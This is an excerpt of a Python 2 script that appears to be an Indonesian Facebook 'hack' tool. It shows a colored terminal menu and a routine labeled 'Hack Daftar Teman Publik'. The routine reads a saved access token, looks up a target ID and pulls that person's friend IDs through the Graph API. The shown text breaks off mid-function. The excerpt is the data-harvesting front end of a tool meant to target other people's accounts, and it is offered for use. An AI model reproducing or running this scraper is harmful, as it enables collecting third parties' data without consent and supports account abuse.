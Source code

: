 def pilih():
	unikers = raw_input("\n\033[1;31;40m>>> \033[1;35;40m")
	if unikers =="":
		print "\x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="2":
		os.system('clear')
		print logo
		print "\033[1;96m⊱⋕⊰══════════════════════════════════════════⊱⋕⊰\n" 
		os.system('git pull origin master')
		raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
		menu()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()

def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;96m⊱⋕⊰══════════════════════════════════════════⊱⋕⊰\n" 
	jalan( "\x1b[1;32;92m[1] \033[1;33;98m>> Hack Daftar Teman Publik") 
	jalan( "\x1b[1;32;36m[0] \033[1;33;96m>> Keluar") 
	print "\033[1;96m⊱⋕⊰══════════════════════════════════════════⊱⋕⊰\n" 
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;96m⊱⋕⊰═══════════════════════════════════════⊱⋕⊰\n" 
		idt = raw_input("\033[1;96m[⊱⋕⊰]\033[1;93m Enter ID/USERNAME\033[1;91m : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;31;37m[⊱⋕⊰] Name : "+op["name"]
		except KeyError:
			print"\x1b[1;37m[⊱⋕⊰] ID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;35;37m[⊱⋕⊰] Jangan Dulu Keluar Peler Lagi Proses... "
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":